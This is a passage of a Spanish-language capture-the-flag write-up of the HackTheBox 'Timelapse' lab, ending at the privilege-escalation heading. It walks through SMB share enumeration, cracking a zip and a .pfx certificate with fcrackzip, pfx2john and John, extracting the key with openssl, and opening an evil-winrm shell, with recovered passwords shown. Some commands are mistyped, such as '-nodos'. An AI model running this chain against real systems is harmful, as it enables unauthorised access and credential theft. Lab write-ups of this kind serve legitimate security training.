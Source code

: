 ```bash
SMB         timelapse.htb   445     DC01            -----           -----------     ------
SMB         timelapse.htb   445     DC01            ADMIN$                                  Remote Admin
SMB         timelapse.htb   445     DC01            C$                                      Default share
SMB         timelapse.htb   445     DC01            IPC$            READ            Remote IPC
SMB         timelapse.htb   445     DC01            NETLOGON                                Logon server share
SMB         timelapse.htb   445     DC01            Shares          READ

SMB         timelapse.htb   445     DC01            SYSVOL                                  Logon server share


No encontramos mucho, así que vamos a `Shares/dev/winrm_backup.zip`. Está protegido con contraseña. Entonces necesitamos resolverlo.
Usamos `fcrackzip` para descifrar el archivo `winrm_backup.zip` usando la lista de palabras `rockyou.txt`.

```bash
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt

Y obtenemos la contraseña:

supremelegacy

Una vez que hayamos descifrado la contraseña, podemos usarla para descomprimir el archivo. Una vez extraído, nos encontramos con un archivo .pfx llamado: Legacy_dev_auth.pfx. Los archivos PFX son en realidad certificados digitales que contienen las claves pública y privada del certificado SSL.

unzip winrm_backup.zip

Extracción y Crackeo de .PFX
pfx2john Legacy_dev_auth.pfx > pfxhash

Ahora, convertiremos ese archivo pfx al hash y lo descifraremos usando John para obtener la clave privada y la clave pem. Como puede ver, la contraseña es thuglegacy. Intentaremos abrir el certificado usando openssl y, como podemos ver, es un proveedor de almacenamiento de claves de software de Microsoft. Podemos extraer el certificado y la clave privada.

openssl pkcs12 -in Legacy_dev_auth.pfx -nocerts -out priv-key.pem -nodos
```bash
openssl pkcs12 -in Legacy_dev_auth.pfx -nokeys -out certificate.pem

Una vez que la clave privada esté disponible, podemos usar esta clave para iniciar sesión en la máquina. Usaremos evil-winrm para iniciar sesión usando tanto el certificado .pem como la clave privada .pem. En lugar de una contraseña, también podemos iniciar sesión con las claves.

evil-winrm -i timelapse.htb -c certificate.pem -k priv-key.pem -S -r timelapse

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Evil-WinRM PS C:\Users\legacyy>


## Escalada de privilegios

No hay nada especial en el usuario `legacyy`:

```